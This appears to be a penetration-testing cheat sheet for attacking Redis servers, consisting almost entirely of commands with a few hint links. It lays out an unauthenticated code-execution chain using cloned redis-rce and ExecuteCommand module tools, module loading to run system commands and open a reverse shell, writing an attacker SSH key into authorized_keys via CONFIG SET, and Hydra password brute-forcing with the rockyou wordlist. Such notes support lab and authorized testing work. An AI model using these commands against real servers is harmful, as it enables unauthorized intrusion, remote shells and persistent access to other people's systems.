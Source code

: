 # Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```

- Configuration File Default Location (`requirepass`)
```
/etc/redis/redis.conf
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```

## Load Module
```
MODULE LOAD /path/to/module.so
system.exec "whoami"
system.rev LHOST LPORT
```
[HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)

## [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server.git)
[HINT](http://baihaiou.cn/2022/12/05/pg-readys/)

## Write to File
```
cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```


## Hydra
```
hydra -P /usr/share/wordlists/rockyou.txt redis://192.168.176.166
```
